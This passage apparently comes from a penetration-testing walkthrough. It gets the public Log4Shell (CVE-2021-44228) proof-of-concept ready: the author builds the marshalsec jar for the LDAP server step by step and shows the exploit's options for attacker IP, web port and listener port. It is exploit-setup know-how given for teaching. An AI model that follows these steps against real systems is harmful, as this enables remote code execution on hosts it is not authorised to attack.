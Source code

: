 The last thing we need to fix is that the exploit requires the jar file `marshalsec-0.0.3-SNAPSHOT-all.jar`, as can be seen in the `createLdapServer` function above. Based on its name, this jar originates from the marshalsec project which is available on [GitHub](https://github.com/mbechler/marshalsec). According to the `README.md` file of the repository, the project can be compiled with maven by executing `mvn clean package -DskipTests`. This results in the jar file we need! Once the jar file has been built, we move the `target` directory to the directory containing the exploit, to ensure that the exploit can find it.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@git clone https://github.com/mbechler/marshalsec.git@@
Cloning into 'marshalsec'...
remote: Enumerating objects: 168, done.
remote: Counting objects: 100% (40/40), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 168 (delta 33), reused 28 (delta 28), pack-reused 128
Receiving objects: 100% (168/168), 470.61 KiB | 1.59 MiB/s, done.
Resolving deltas: 100% (89/89), done.
                           
┌──(kali㉿kali)-[/tmp/x]
└─$ @@cd marshalsec@@

┌──(kali㉿kali)-[/tmp/x/marshalsec]
└─$ @@mvn clean package -DskipTests@@
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[INFO] Scanning for projects...
[...]
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  22.433 s
[INFO] Finished at: 2022-08-18T12:42:09-04:00
[INFO] ------------------------------------------------------------------------

┌──(kali㉿kali)-[/tmp/x]
└─$ @@ls ./target@@
archive-tmp  generated-sources       @@@marshalsec-0.0.3-SNAPSHOT-all.jar@@@  maven-archiver  test-classes
classes      generated-test-sources  marshalsec-0.0.3-SNAPSHOT.jar      maven-status

┌──(kali㉿kali)-[/tmp/x/marshalsec]
└─$ @@mv target ..@@                               

┌──(kali㉿kali)-[/tmp/x/marshalsec]
└─$ @@cd ..@@
                       
┌──(kali㉿kali)-[/tmp/x]
└─$ @@ls@@
@@@exploit.py@@@  @@@jdk1.8.0_20@@@  jdk-8u202-linux-x64.tar.gz  marshalsec  @@@target@@@
{% endhighlight %}

At this point, we have everything we need to launch the exploit. The exploit takes three arguments, as can be seen below.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@python exploit.py -h@@

        [!] CVE: CVE-2021-44228
        [!] Github repo:
        https://github.com/kozmer/log4j-shell-poc

usage: exploit.py [-h] [--userip userip [userip ...]] [--webport webport [webport ...]] [--lport lport [lport ...]]

please enter the values

options:
  -h, --help            show this help message and exit